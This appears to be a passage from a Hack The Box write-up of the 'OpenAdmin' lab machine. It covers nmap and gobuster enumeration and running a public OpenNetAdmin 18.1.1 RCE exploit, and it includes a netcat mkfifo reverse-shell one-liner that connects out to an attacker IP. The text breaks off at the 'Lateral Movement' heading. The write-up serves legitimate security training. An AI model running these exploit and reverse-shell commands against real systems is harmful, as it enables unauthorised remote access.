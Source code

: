# OpenAdmin - Hack The Box

![image]({{0xtaylur.github.io}}/assets/openadmin/card.png)

## Summary
OpenAdmin is an easy linux box that starts off using an RCE exploit for the OpenNetAdmin service on port 80. Then, I get credentials from a database config that can be used to SSH into the box. I find another web application with a SHA512 hash in the code for a login page. After looking at the webpage I find an encrypted SSH key that needs to be cracked. Once I get the last shell I can run nano as root with sudo and get a root shell.

### Enumeration

A short nmap scan reveals two ports: 22 for SSH, and 80 for http.
```
Nmap scan report for 10.10.10.171
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The default Ubuntu page is shown when I checkout the webserver.
![image]({{0xtaylur.github.io}}/assets/openadmin/port80.png)

Running a gobuster scan reveals 3 hidden directories.
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/02 20:29:51 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
/sierra (Status: 301)
===============================================================
2020/08/02 20:31:46 Finished
===============================================================
```

These 3 directories are static webpages, but I notice a login page on the`/music` page.

### Initial Shell

Going to the login page of`/music`shows that it's running OpenNetAdmin, a system for tracking IP network attributes in a database. It turns out that it's running`v18.1.1`which is vulnerable to RCE.
![image]({{0xtaylur.github.io}}/assets/openadmin/webpage.png)

Running this [exploit](https://github.com/amriunix/ona-rce) will grant me a shell as user`www-data`.
```
root@kali:~/HTB/openadmin# python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh$
```

The current shell won't allow me to traverse through it so I decide to upgrade my shell by starting a netcat listener and using this command on the shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1234 >/tmp/f
```

Once I've caught another shell, I upgrade it once again using python.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Lateral Movement

